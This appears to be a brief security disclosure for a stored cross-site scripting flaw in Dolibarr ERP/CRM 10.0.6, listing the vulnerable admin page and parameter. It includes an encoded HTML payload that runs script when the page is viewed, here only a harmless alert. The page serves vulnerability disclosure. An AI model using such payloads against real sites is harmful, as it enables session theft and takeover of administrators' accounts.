 ```yaml
---
title: 0day's
layout: page
permalink: /0days
---
```


# Dolibarr - Stored XSS [constname parameter]
# Version : ###10.0.6
# Date: ###17.01.2020
# Vendor : ###[https://www.dolibarr.org/](https://www.dolibarr.org/)
# CVE : ###N/A

Description: In this version of the Dolibarr ERP - CRM program is allows Stored XSS by placing a payload in the "constname" parameter field in other setup page.

# Url : ###http://localhost/htdocs/admin/const.php
# Parameter : ###constname
# Payload : ###\<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+>\</object>
